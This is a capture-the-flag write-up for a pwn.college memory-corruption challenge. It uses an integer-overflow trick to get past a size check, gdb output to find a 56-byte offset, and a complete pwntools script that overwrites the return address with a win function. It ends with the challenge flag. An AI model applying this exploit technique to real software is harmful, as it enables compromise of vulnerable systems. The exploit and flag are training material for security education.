 This problem takes in two input before 

    Number of payload records to send: 2
    Size of each payload record: 2
    Send your payload (up to 4 bytes)!

The size of the buffer is the multiplication of the two 

The problem here is that we cannot enter `-1` and `-1`

The value which is passed to read is 


![](./sc/sc1.png)

Which causes Bus error 
    
    temp.c:16:17: warning: ‘read’ specified size 18446744073709551615 exceeds maximum object size 9223372036854775807 [-Wstringop-overflow=]
       16 |     bytesRead = read(STDIN_FILENO, buffer,-1);
          |                 ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    In file included from temp.c:2:
    /usr/include/unistd.h:371:16: note: in a call to function ‘read’ declared with attribute ‘access (write_only, 2, 3)’
      371 | extern ssize_t read (int __fd, void *__buf, size_t __nbytes) __wur
          |                ^~~~
    ❯ ./temp
    Enter some text: Error reading input: Bad address


The read function cannot take signed `-1` which means we have to craft the input so that the multiplication results in an unsigned max int

    Number of payload records to send: 2147483648
    Size of each payload record: 2
    Send your payload (up to 4294967296 bytes)!


    
       0x000000000040236d <+193>:	call   0x40210e <challenge>
       0x0000000000402372 <+198>:	lea    0xeac(%rip),%rdi        # 0x403225
       0x0000000000402379 <+205>:	call   0x401120 <puts@plt>
       0x000000000040237e <+210>:	mov    $0x0,%eax
       0x0000000000402383 <+215>:	leave
       0x0000000000402384 <+216>:	ret
    End of assembler dump.
    (gdb) x /32z $rsp
    0x7ffe0751dfe0:	0xc117a540	0x000073a4	0x0751f178	0x00007ffe
    0x7ffe0751dff0:	0x0751f168	0x00007ffe	0xc1017e93	0x00000001
    0x7ffe0751e000:	0xc11746a0	0x000073a4	0x00000006	0x00000002
    0x7ffe0751e010:	0x41414141	0x000a4141	0x00000000	0x00000000
    0x7ffe0751e020:	0x00000000	0x00000000	0x00402390	0x00000007
    0x7ffe0751e030:	0x0000000c	0x00000000	0x0751e010	0x00007ffe
    0x7ffe0751e040:	0x0751f070	0x00007ffe	0x00402372	0x00000000

The offset is 56

and the address of win function is 0x402007

The payload 
    
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

FILE = "/challenge/babymem-level-5-1"
HOST = 'pwn.college'
username = 'hacker'
password = '''password'''

port = 22

conn = ssh(user=username, host=HOST, password=password, port=port)

process = conn.process(FILE)

payload = b"A"*56 +  p64(0x402007)
intMax = str((2**31)).encode()
process.recvuntil(b"Number of payload records to send: ")
process.sendline(intMax)
process.recvuntil(b"Size of each payload record: ")
process.sendline(b"2")
process.sendline(payload)
process.interactive()
conn.close()
```

The flag 
    
    pwn.college{c8VpRcJDViGHNQvkCVB7DYj455V.0FO5IDL5kzM1czW}
